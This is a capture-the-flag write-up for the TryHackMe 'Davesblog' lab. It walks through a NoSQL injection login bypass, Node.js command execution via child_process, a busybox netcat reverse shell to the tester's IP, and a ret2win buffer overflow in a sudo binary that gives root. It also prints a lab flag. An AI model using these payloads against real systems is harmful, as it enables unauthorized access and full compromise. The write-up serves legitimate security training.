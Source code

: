 <h3> Davesblog TryHackMe </h3>

Difficulty = Hard

Nmap Scan:
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/fe08f1e1-1816-4a36-8e3c-a5a65985d426)

Checking the web server shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/e4d01c87-c206-417e-9cfa-1ec50bf94091)

From looking at the web app server builtins we can see this

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/699e3b64-a912-42dc-9981-f07f4bac6a09)

This tells us that the web server is running on Express which is basically NodeJS and also the db is NoSQL

Checking the /admin directory shows a login page
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f349a68b-2136-4aa8-af74-9e247ae4a70e)

Since we don't currently know any cred to use lets try NoSQLi 

I used [this](https://book.hacktricks.xyz/pentesting-web/nosql-injection) to get my payload to be:

```json
{"username": {"$ne": null}, "password": {"$ne": null} }
```

And remember the *Content-Type* should be set to *application/json*

Trying that bypasses the login form
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/046e84e9-57e8-481b-89f1-08b9b76bed54)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/66883af2-ca6e-41be-af4a-263eecd1a4de)

A new cookie is formed and its a jwt token 

![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/a7d75288-15ec-4e23-8793-f0cf70640399)

Using [jwt.io](https://jwt.io/) I decoded the jwt token and got the first flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/9e97c9fe-1ad5-4a1a-883b-59e50e80d435)

There's a place which claims to be executing system commands but when i try execute normal commands it doesn't work
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/70d80988-4740-4c49-bbb8-0db576988e65)

Since we know that the web server is build on NodeJs lets execute a NodeJS command
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/98e7ddae-13d6-4554-9f14-c20c612adf99)

```js
(() => { return require("child_process").execSync("whoami;", { timeout: 5000 }); })();
```

Now lets get shell :D

```js
(() => { return require("child_process").execSync("busybox nc 10.2.42.156 1337 -e /bin/bash;", { timeout: 5000 }); })();
```

To stabilize the shell
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/79634295-3ecd-410c-932c-543f9a59b040)

For the next flag we need to interact with the MongoDB hosted locally 

We can check for internal service running on the host
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f2bca12e-0e7b-43a3-b2be-3a6d38039446)

Lets interact with the MongoDB from the target directly
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/1267a39c-5188-4027-9579-aeaacabfeba8)

Let us escalate privilege to root now

Checking *sudo -l* shows we can run */uid_checker* as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ecb24c00-ad9c-4387-8297-4df0889b4f4f)

I downloaded the binary to my box for further analysis
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/2d6c9d04-c0e6-4256-abc9-7eca510b77f3)

Basic file checks
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/250d9677-1334-4985-8fea-bee0b4091c93)

We're working with a x64 binary which is dynamically linked and not stripped and from the mitigation check we can see that only NX is enabled

Running strings on the binary gives the 4th flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/b7c152fd-7fa9-46f8-a791-ec2a518e1be3)

Using ghidra I'll do dynamic analysis on the binary

Here's the decompiled main function

```c
void main(void)

{
  int option;
  char buf [72];
  __uid_t uid;
  __gid_t gid;
  
  puts("Welcome to the UID checker!\nEnter 1 to check your UID or enter 2 to check your GID");
  gets(buf);
  option = strcmp(buf,"1");
  if (option == 0) {
    uid = getuid();
    printf("Your UID is: %d\n",(ulong)uid);
  }
  else {
    option = strcmp(buf,"2");
    if (option == 0) {
      gid = getgid();
      printf("Your GID is: %d\n",(ulong)gid);
    }
    else {
      option = strcmp(buf,"THM{runn1ng_str1ngs_1s_b4sic4lly_RE}");
      if (option == 0) {
        puts("Wow! You found the secret function! I still need to finish it..");
      }
      else {
        puts("Invalid choice");
      }
    }
  }
  return;
}
```

Basically it's just a uid and gid checker but we're not interested in that 

We can spot the vulnerability that is the usage of gets() to receive our input

Looking through the function there's a secret function 

Here's it decompiled code

```c
void secret(void)

{
  puts("How did you get here???");
  system("/bin/sh");
  return;
}
```

With this we can tell this is just a ret2win sorta challenge 

All we need to do is to hijack the program execution then make the instruction pointer points to the secret function address

Lets get the offset
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/43eea022-4f96-4eff-b6d8-bfce95d2052d)
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/ac6c7fec-e434-4331-b549-69b0807496bd)

Cool the offset is *88*. 

Here's my solve [script](https://github.com/markuched13/markuched13.github.io/blob/main/solvescript/thm/davesblog/solve.py)

Running it works locally and creates the payload file
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/096b136b-77db-44b7-b60f-4c1422ce93c6)

I'll transfer the payload to the target
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/8a4a1af4-dfcf-4922-8561-d1d325fb5102)

Running the payload on the binary gives shell as root
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/91247418-1de7-4bdf-9034-3661489175c5)


